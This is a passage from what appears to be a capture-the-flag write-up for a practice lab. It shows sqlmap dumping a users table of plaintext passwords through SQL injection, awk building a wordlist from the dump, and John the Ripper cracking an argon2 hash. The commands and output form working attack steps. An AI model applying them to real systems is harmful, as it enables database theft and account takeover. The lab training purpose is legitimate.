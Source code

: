 ```sh
| username | varchar(50) |
+----------+-------------+
```
- Good, let's dump the `username` and `password` columns
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -D blog -T users -C username,password --dump
[18:08:13] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'blog'
[18:08:13] [WARNING] reflective value(s) found and filtering out
Database: blog
Table: users
[651 entries]
+--------------------+---------------------+
| username           | password            |
+--------------------+---------------------+
[18:08:14] [WARNING] console output will be trimmed to last 256 rows due to large table size
| lspikinsaz         | D8Gbl8mnxg          |
| profeb0            | kLLxorKfd           |
...
| oboatmani1         | kSKBUj8             |
| rtamblingi2        | BIkqvmX             |
+--------------------+---------------------+
```
- That's a long list of users and plaintext passwords, I guess these passwords can be used to crack the previous hash of the user `chris_w`.
## Building the password list with [[awk]]
```sh
awk -F, '{ print $2 }' /home/sami/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv > password.txt
cat password.txt
D8Gbl8mnxg
kLLxorKfd
cdXAJAR
0hdeFiZBRJ
6rl6qXSJDrr
DuYMuI
fwbk0Vgo
92Fb3vBF5k75
...
kSKBUj8
BIkqvmX⏎
```
## [[John The Ripper]] to crack the hash
```sh
⚡john hash.txt --wordlist=password.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (argon2 [Blake2 AVX])
Cost 1 (t) is 16 for all loaded hashes
Cost 2 (m) is 65536 for all loaded hashes
Cost 3 (p) is 2 for all loaded hashes
Cost 4 (type [0:Argon2d 1:Argon2i]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vAxWtmNzeTz      (?)
1g 0:00:00:24 DONE (2022-12-31 19:33) 0.04083g/s 5.226p/s 5.226c/s 5.226C/s KmYlhMmg..Z2WgzYZCK
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
- The creds are `chris_w:<REDACTED>